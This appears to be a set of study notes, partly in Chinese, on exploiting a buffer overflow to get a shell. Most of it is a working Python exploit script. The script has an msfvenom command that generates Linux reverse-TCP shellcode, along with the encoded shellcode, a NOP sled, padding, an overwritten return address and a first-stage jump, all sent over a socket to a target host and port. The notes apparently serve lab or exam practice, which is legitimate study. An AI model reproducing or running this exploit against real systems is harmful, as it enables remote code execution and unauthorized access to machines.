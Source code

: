 ## get shell
* msf 生成payload
* 插入payload，注意 padding length
* nop_sled 作用 
> + 填充
> + 着陆区/滑行区
> + make sure exploit won't fail, because point to wrong address
删除8个 \x90 可获取shell

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d\x20" -f py -v shellcode

#!/usr/bin/python
# -*- coding: UTF-8 -*-

# jmp esp 0x08134596
# msf-nasm_shell
# nasm > add eax,12
# 00000000  83C00C            add eax,byte +0xc
# nasm > jmp eax
# 00000000  FFE0              jmp eax

# payload
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d\x20" -f py -v shellcode

import socket
host = "192.168.23.133"

shellcode =  b""
shellcode += b"\xba\x4b\x61\x3a\x35\xdd\xc7\xd9\x74\x24\xf4"
shellcode += b"\x5e\x2b\xc9\xb1\x12\x83\xc6\x04\x31\x56\x0e"
shellcode += b"\x03\x1d\x6f\xd8\xc0\x90\xb4\xeb\xc8\x81\x09"
shellcode += b"\x47\x65\x27\x07\x86\xc9\x41\xda\xc9\xb9\xd4"
shellcode += b"\x54\xf6\x70\x66\xdd\x70\x72\x0e\xa1\x82\x84"
shellcode += b"\xcf\x35\x81\x84\xce\x7e\x0c\x65\x60\xe6\x5f"
shellcode += b"\x37\xd3\x54\x5c\x3e\x32\x57\xe3\x12\xdc\x06"
shellcode += b"\xcb\xe1\x74\xbf\x3c\x29\xe6\x56\xca\xd6\xb4"
shellcode += b"\xfb\x45\xf9\x88\xf7\x98\x7a"

nop_sled = "\x90" * 8  # NOP sled
eip = "\x96\x45\x13\x08"
first_stage = "\x83\xC0\x0C\xff\xe0\x90\x90"

padding = "\x41" * (4368 - len(nop_sled) - len(shellcode))

buffer = "\x11(setup sound " + nop_sled + shellcode + padding + eip + first_stage + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print  "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print  "[*]Payload Sent !"

```


